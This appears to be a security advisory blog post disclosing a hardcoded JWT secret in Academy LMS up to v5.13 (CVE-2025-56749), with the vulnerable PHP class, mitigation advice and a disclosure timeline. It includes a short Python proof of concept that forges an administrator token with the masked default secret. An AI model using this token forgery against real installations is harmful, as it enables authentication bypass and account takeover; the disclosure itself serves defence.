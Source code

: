 ```yaml
---
title: "Critical JWT Secret Vulnerability in Academy LMS v5.13"
date: 2025-07-20
tags: ["security", "jwt", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
url: "/academy-lms-jwt-secret-7k9m2x4p8q/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A critical security vulnerability has been discovered in Academy LMS versions up to and including 5.13, where the application uses a hardcoded default JWT secret for token authentication.

## Technical Details

**CVE ID:** [CVE-2025-56749](https://nvd.nist.gov/vuln/detail/CVE-2025-56749)  
**CVSS Score:** 9.3 (Critical)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Authentication Bypass via Hardcoded Credentials  

### Affected Component
- File: `lms/application/libraries/TokenHandler.php`
- Default Secret: `academy-lms-xxxxxxxxxxx` - masked to protect users who still use the secret

### Vulnerability Description

Academy LMS uses a predictable, hardcoded JWT secret "academy-lms-xxxxxxxx" for signing authentication tokens with the HS256 algorithm. This secret is the same across all default installations of Academy LMS, making it trivial for attackers to forge valid JWT tokens.

### Vulnerable Source Code

```php
// From lms/application/libraries/TokenHandler.php:6
class TokenHandler
{
   //////////The function generate token/////////////
   PRIVATE $key = "academy-lms-xxxxxxxx";
   public function GenerateToken($data)
   {
       $jwt = JWT::encode($data, $this->key);
       return $jwt;
   }

  //////This function decode the token////////////////////
   public function DecodeToken($token)
   {
       $decoded = JWT::decode($token, $this->key, array('HS256'));
       $decodedData = (array) $decoded;
       return $decodedData;
   }
}
```

## Impact

An attacker can:
1. Purchase the Academy LMS template to obtain the source code and discover the default secret
2. Generate valid JWT tokens for any user account, including administrators
3. Completely bypass authentication mechanisms
4. Achieve privilege escalation to administrative access
5. Access sensitive user data and system functions

## Proof of Concept

```python
import jwt
import json

# Known default secret from Academy LMS
secret = "academy-lms-xxxxxx"

# Forge admin token
payload = {
    "user_id": "1",
    "role_id": "1",
    "is_admin": True,
    "email": "admin@example.com"
}

# Generate malicious JWT
forged_token = jwt.encode(payload, secret, algorithm='HS256')
print(f"Forged Admin Token: {forged_token}")
```

## Affected Endpoints

All API endpoints that rely on JWT authentication are vulnerable, including:
- User authentication endpoints
- Course management APIs
- Administrative functions
- Payment processing APIs

## Mitigation

### Immediate Actions
1. **Change the JWT secret immediately** to a cryptographically secure random value
2. **Invalidate all existing JWT tokens** by changing the secret
3. **Force all users to re-authenticate**

### Recommended Implementation
```php
// Generate secure random secret
$jwt_secret = bin2hex(random_bytes(32)); // 64-character hex string

// Store in environment variables or secure config
// Never hardcode in source code
```

### Best Practices
- Use environment variables for secrets
- Implement JWT secret rotation
- Consider using RS256 with public/private key pairs
- Implement proper token expiration policies

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [Academy LMS Official Website](https://codecanyon.net/item/academy-learning-management-system/22703468)
- [JWT Security Best Practices](https://tools.ietf.org/html/rfc7519)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*
